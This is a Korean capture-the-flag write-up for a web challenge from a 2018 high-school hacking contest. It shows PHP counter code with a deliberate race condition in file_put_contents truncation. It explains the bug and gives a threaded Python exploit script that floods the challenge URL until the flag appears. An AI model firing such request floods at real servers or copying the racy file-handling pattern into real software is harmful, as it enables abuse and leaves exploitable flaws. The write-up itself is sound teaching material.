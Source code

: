 # count (web)
2018 선린인터넷고등학교 교내 해킹방어대회 - 고등해커 출제 문제

------------------

### Summary
고등해커라는 교내 대회에 문제를 출제할 기회가 생겨 예전에 발견하고 묵혀뒀던걸 문제로 만들어봤다.
파일 입출력에서 발생하는 간단한 레이스 컨디션 문제인데, 코드는 아래와 같다.

### 문제 설명

```php
<?php
error_reporting(0);
require_once 'flag.php';
# made by munsiwoo

if(isset($_GET['source'])) {
	show_source(__FILE__);
	exit;
}

$cnt_file = 'cnt-[rand]';

if(!file_exists($cnt_file)) {
	file_put_contents($cnt_file, '10');
}

$cnt = (int)file_get_contents($cnt_file); // read count

if($cnt == 30) {
    $cnt = 10;
}

$cnt = $cnt + 1;
file_put_contents($cnt_file, $cnt); // write count

if($cnt == 1) {
    die($flag);
}

echo $cnt;
?>
<br><a href="?source">source</a>
```
코드를 대충 눈으로 훑어봤을 땐 물론 말도 안되는 코드라고 생각할 수 있다.
우선 이 문제를 이해하고 풀기 위해선 file_*_contents 함수에 대해 알아야 한다.

PHP에서 `file_get_contents`와 `file_put_contents`는 파일 입출력 함수
fopen(), fread(), fwrite(), fclose() 등의 함수를 쓰기 편하게 하나로 합쳐놓은 함수다.
`file_get_contents` 함수는 인자로 받은 파일명으로 해당 파일의 내용을 가져오며
`file_put_contents` 함수는 필수 인자 2개를 받고 파일에 데이터를 쓸 수 있다.

PHP 공식 레퍼런스에 나와있는 `file_put_contents` 사용법을 보자. 

```c
int file_put_contents ( string $filename , mixed $data [, int $flags = 0 [, resource $context ]] )
```
이렇게 `file_put_contents` 함수는 총 4개의 인자를 받을 수 있고
`$flags` 인자에 따로 값을 주지 않으면 기본 값은 `0`이 들어가는 걸 알 수 있다.
[php 소스](https://github.com/php/php-src "php 소스")에서 `src/ext/standard/file.c`를 열어서 들여다보면 `$flags`가 `0`일때의 파일 입출력 모드는 `wb`모드이다.

즉, 따로 `$flags` 인자에 값을 주지 않고 `file_put_contents('a', 'pretty_mun');` 이런식으로 사용한다면
파일 a에 있던 내용을 모두 지우고 `pretty_mun`라는 내용이 들어간다는 것이다.

이 문제는 이러한 `wb`모드의 특징을 이용한 레이스 컨디션 문제다.

```php
$cnt = (int)file_get_contents($cnt_file); // read count

if($cnt == 30) {
    $cnt = 10;
}

$cnt = $cnt + 1;
file_put_contents($cnt_file, $cnt); // write count

if($cnt == 1) {
    die($flag);
}
```
위 소스는 문제 소스중 일부분이다. (line 17 ~ 28)
참고로 `$cnt`의 초기값은 5다. (file_get_contents로 가져온 파일의 내용이 5)

새로고침할 때마다 `$cnt`가 1씩 증가하고 증가한 값을 $cnt_file 파일에 쓴다.
이렇게 쭉 증가하다가 `$cnt`가 30이 되면 `$cnt`를 10으로 초기화한다.
flag를 얻기 위해서는 `$cnt`를 1로 만들어야 하는데, `file_put_contents`의 특징을 모른다면 풀기 힘들 것이다.

하지만 이제 `file_put_contents`의 특징을 알기 때문에 `file_put_contents`로 값을 쓸 때
잠시동안 파일의 내용이 지워지는 그 순간에 `file_get_contents`로 해당 파일을 읽으면
파일의 내용이 없기 때문에 빈 문자열이 읽힐 것이고 이걸 int로 변환하면 `0`이 될 것이다.

즉, 멀티스레딩 혹은 멀티프로세싱으로 동시에 여러번 요청하면 언젠간 겹치게 되고 풀리게 된다는 것이다.

### Exploit
exploit.py

```python
import requests
import threading
# made by munsiwoo

def request(sandbox) :
	global response
	uri = 'http://game.withphp.com/ouya/sandbox/' + sandbox
	response = requests.get(uri).text

if __name__ == '__main__' :
	sandbox = '80e30ab2318c6a531cdde54c009a54ca/'
	response = ''

	while True :
		threading.Thread(target=request, args=(sandbox,)).start()
		if(response.find('Sunrin{') != -1) : # flag format is Sunrin{...}
			print(response)
			break

	print('End')

```
